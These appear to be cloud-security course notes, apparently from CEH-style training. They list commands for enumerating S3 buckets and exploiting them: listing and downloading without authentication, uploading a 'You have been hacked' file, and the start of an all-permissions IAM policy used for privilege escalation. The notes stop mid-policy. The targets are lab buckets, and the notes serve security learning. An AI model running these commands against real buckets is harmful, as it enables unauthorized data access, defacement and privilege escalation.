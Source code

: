 		python3 s3scanner.py sites.txt
	#Udemy
	cloud_enum
		cloud_enum -k certifiedhacker --disable-azure --disable-gcp

	S3BucketList v2.1 (chrome extension)
		https://github.com/AlecBlance/S3BucketList


    # Exploit S3 Buckets
	pip3 install awscli
	aws configure	(ask for key)
		https://console.aws.amazon.com (need aws account)
		Sign in with root user -> Security Credentials -> Create Access keys
	Paste the Access Key ID:
	Paste the Secret Access key:
	
	aws s3 ls s3://certifiedhacker02

	https://certifiedhacker02.s3.amazonaws.com/
 	http://flaws.cloud.s3.amazonaws.com/

	echo “You have been hacked” >> Hack.txt
	aws s3 mv Hack.txt s3://certifiedhacker02

	https://certifiedhacker02.s3.amazonaws.com/

	aws s3 rm s3://certifiedhacker02/Hack.txt


	#Udemy
	aws s3 ls s3://flaws.cloud/ --no-sign-request
	aws s3 cp s3://flaws.cloud/secret.html . --no-sign-request
	aws s3 cp ./index.html s3://flaws.cloud --no-sign-request

	aws configure --profile aman
	aws s3 ls s3://flaws.cloud/ --profile aman
	aws s3 --profile aman cp s3://flaws.cloud/file.txt .

	Tip : [search flaws challenge in google and read the medium writeup]
	

    # Perform Privilege Escalation to Gain Higher Privileges

	aws configure
	vim user-policy.json
	
		"Version":"2012-10-17",

		"Statement": [
			{

			"Effect":"Allow",

			"Action":"*",

			"Resource":"*"

